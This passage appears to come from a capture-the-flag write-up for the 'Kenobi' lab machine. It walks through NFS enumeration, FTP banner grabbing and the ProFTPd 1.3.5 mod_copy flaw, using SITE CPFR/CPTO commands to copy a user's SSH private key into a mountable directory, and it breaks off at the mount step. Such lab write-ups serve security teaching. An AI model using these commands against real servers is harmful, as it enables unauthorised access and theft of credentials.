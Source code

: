 On the port 111 we see there is rpcbind service running and in the rpcinfo we can see that nfs service is running. So, let's enumerate for nfs shares and from the mount information we can see the mount /var.

```shell
nmap -p 111 -script=nfs-ls,nfs-statfs,nfs-showmount10.10.74.95
```

<img src="{{'/assets/img/images/03.Kenobi/08.png' | prepend: site.baseurl }}" height="700">

We saw there is a ftp service running on port 21. Let's try to grab the banner of ftp to find the ftp version using netcat.

```shell
nc 10.10.74.95 21
```

<img src="{{'/assets/img/images/03.Kenobi/09.png' | prepend: site.baseurl }}">

We will use searchsploit to find for any vulnerabilities present in the 1.3.5 version of ProFTPd.

```shell
searchsploit proftpd 1.3.5
```

While looking for the vulnerabilities for the proftpd version 1.3.5, we found that there is a vulnerability that exploits SITE CPFR/CPTO commands.

<img src="{{'/assets/img/images/03.Kenobi/10.png' | prepend: site.baseurl }}">

## Exploitation

Using this we can copy files in the target. So, we will copy the id_rsa file to the /var directory and then mount the /var directory to our machine.

Let's connect to ftp and copy the files.

```shell
nc 10.10.74.95 21
```

```shell
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```shell
SITE CPTO /var/tmp/id_rsa
```

<img src="{{'/assets/img/images/03.Kenobi/11-1.png' | prepend: site.baseurl }}">

<img src="{{'/assets/img/images/03.Kenobi/11.png' | prepend: site.baseurl }}" height="300">

Now we will mount the /var directory to our machine.

```shell
mkdir /mnt/kenobi
```
